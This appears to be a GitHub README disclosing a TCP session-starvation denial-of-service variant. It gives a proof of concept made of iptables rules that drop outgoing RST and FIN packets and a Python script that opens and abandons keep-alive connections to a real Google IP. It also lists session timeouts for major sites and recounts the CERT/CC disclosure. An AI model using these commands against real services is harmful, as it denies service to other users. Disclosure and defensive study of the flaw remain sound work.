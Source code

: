 # TCP-Starvation

**Update:** From comments throughout different communities, I've seen links to different articles describing the same issue as I do here. 
I understand this vulnerability that has existed for quite some time already (10y+), and by no means trying to take credit for them. 
Perhaps I used wrong search terms when looking for related articles, or just that they was located at page 42 on google. Either way, I still hope you enjoy the read and perhaps learn something useful.

I've also seen a lot of people mistake this for a SYN flood attack. This attack relies on a full connection, not half open. So SYN cookies won't help you.

Since this is a already know vulnerability with existing attacks/pocs, I've decided to upload a trimmed down version of the kittenzlauncher.py (ddos/waf evasion, proxy jumping, c2 mode - is removed).

<br> <br>
**Original:**

Some time ago, I found a design flaw/vulnerability which affects most TCP services and allows for a new variant of denial of service. 
This attack can multiply the efficiency of a traditional DoS by a large amount, depending on what the target and purpose may be.


The idea behind this attack is to close a TCP session on the attacker's side, while leaving it open for the
victim. Looping this will quickly fill up the victim’s session limit, effectively denying other users to
access the service.


This is possible by abusing RFC793, which lacks an exception if reset is not sent. 

    RFC793 page 36
    As a general rule, reset (RST) must be sent whenever a segment arrives
    which apparently is not intended for the current connection. A reset
    must not be sent if it is not clear that this is the case. 

<br>

What does this affect?
- Most services running on TCP
- Product handling TCP sessions such as:
  - Firewalls with session based policies
  - Routers and firewalls with NAT tables
  - Load balancers
  - and probably a lot more

<br>

## Proof of Concept
Connect to a device with root privileges and drop all outgoing RST and FIN packets towards the victim server.

    iptables -A OUTPUT -d 173.194.222.100 -p tcp --dport 80 --tcp-flags RST RST -j DROP
    iptables -A OUTPUT -d 173.194.222.100 -p tcp --dport 80 --tcp-flags FIN FIN -j DROP 

The python script below will close the TCP connection early, instead of waiting for a response.

    #/usr/bin/python
    import socket
    header = ('GET / HTTP/1.1\r\n'
              'Host: www.google.com\r\n'
              'Connection: keep-alive\r\n\r\n')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(5)
    s.connect(('173.194.222.100', 80))
    s.send(header)
    s.close() 

![Starvation test on on google.com](https://raw.githubusercontent.com/Eplox/TCP-Starvation/master/images/google.png))
<br>
![TCP life cycle network flow](https://raw.githubusercontent.com/Eplox/TCP-Starvation/master/images/tcp_flow.png)

By adding a "Connection: keep-alive" to http/https request, increases the session hold time to at least the keep-alive time specified by the server. 

The last packet from 173.194.222.100 is sent roughly 120 seconds after the attack occurred. 
In most cases, the attack lasts equal to the time between first and last packet received, plus the time between last and second last packet. <br>
This is because the server may not send out a "I'm done with you" packet at the end of it's FIN_WAIT1 state., something that can be confirmed by monitoring netstat during the attack on the victim side.<br>
So for google.com, I would expect the total attack duration per request would be: (127-10)+(127-97) = 147 rounded up to 150 seconds.

<br>

## Test on a few different protocols
    Protocol    Session Timeout     Software Version
    HTTP        320                 Apache httpd 2.4.27 (Linux ubuntu 4.13.0-21-generic)
    HTTPS       320                 Apache httpd 2.4.27 (Linux ubuntu 4.13.0-21-generic)
    SSH         195                 OpenSSH 7.5p1 (Linux ubuntu 4.13.0-21-generic)
    SMTP        310                 Postfix smtpd (Linux ubuntu 4.13.0-21-generic)

Timeout values seem to depend on the application itself, as well as the kernel values such as  https://www.kernel.org/doc/Documentation/networking/nf_conntrack-sysctl.txt<br>
Result may variate between different protocols, kernels and settings.

<br>

## Estimated TCP session timeout on a few popular sites
google.com: 150sec<br>
facebook.com: 200sec<br>
wikipedia.org: 90sec<br>
twitter.com: 1020sec<br>
reddit.com: 710sec

<br>

## And if you weaponize it?
https://www.youtube.com/watch?v=6rE0hMq6_gQ<br>
[![Youtube](https://img.youtube.com/vi/6rE0hMq6_gQ/0.jpg)](https://www.youtube.com/watch?v=6rE0hMq6_gQ)

<br>

## Disclosure
This vulnerability has been a real nightmare to disclose responsible. It could take several months before getting a reply with "TCP vulnerabilities are not within our scope.", or just no answers at all.
After multiple of disclosing attempts, I finally got in contact with EFF https://www.eff.org/security which pointed me in the right direction of CERT Coordination Center (CERT/CC) https://www.cert.org/, where the case was quickly handled with:

After analysis, we believe we have determined that this attack is a variant of a NAPTHA attack, CVE-2000-1039. We previously published an advisory on these types of attacks: <https://www.cert.org/historical/advisories/CA-2000-21.cfm> and a longer research report is available at <https://www.giac.org/paper/gsec/313/naptha-type-denial-of-service-attack/100899>.
<br><br>We're looking at updating the advisory to specify TCP RST packets too, but the problem in general appears to be a publicly known one. It's also unclear how the RFC could be updated to prevent this sort of attack in TCP.

<br>

## Q/A
**Q:** How do I defend myself?<br>
**A:** Defending yourself means you have to tweak the timeout and retransmission settings, this could affect users with poor connections in a negative way.<br>

**Q:** Will you release kittenzlauncher from that youtube video?<br>
**A:** Not planning to do so. Giving script kiddies a newb friendly attack tool with a ton of evasion and attack functionality would probably piss off more people than make others happy.
